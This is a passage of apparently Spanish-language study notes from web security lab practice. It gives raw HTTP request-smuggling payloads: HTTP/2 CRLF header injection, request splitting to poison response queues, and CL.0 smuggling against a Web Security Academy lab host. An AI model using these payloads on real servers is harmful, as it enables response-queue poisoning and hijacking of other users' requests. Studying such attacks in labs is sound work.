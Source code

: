 ```http
0

GET / HTTP/1.1
Host: domain.com
Content-Length: 12

testing=test
```

**Request2:**
```http
POST / HTTP/2
Host: domain.com
Content-Length: 0

0

POST / HTTP/1.1
Content-Length: 850
Cookie: session=sgYzrktq4DXbbDs5qTRzKqzkxgurqKek

search=test
```

**Explicacion:**
Llevamos a cabo un ataque de **HTTP/2 Request Smuggling** aprovechando una mala sanitización de cabeceras por parte del *front-end*. Usamos un vector exclusivo de **HTTP/2** basado en **inyección CRLF** dentro del valor de una cabecera, lo que nos permite introducir una cabecera `Transfer-Encoding: chunked` maliciosa y un cuerpo que termina en `0`.
- --
## **H2RS via Splitting CRLF Injection**
![[Pasted image 20250819170002.png]]
**Request:**
```http
GET / HTTP/2
Host: domain.com
```

**Explicacion:**
- Explotamos una vulnerabilidad de **request splitting** específica de **HTTP/2**, en la que el servidor no limpia correctamente los **caracteres de control** inyectados en las cabeceras. Inyectamos una secuencia **CRLF** en el valor de una cabecera para **fragmentar la petición HTTP**, *smugglear* una nueva solicitud y **envenenar la cola de respuestas**.
-- -
## **Smuggling con CL.0**
**Request:**
```http
POST /resources/images/blob.svg HTTP/1.1
Host: 0a7b004c04cb921181412f72001900ef.web-security-academy.net
Content-Length: 30


GET /error HTTP/1.1
Test: A
```
*Aclaracion:*
- Probar con la cabecer **`Host`** antes de la cabecera Test.

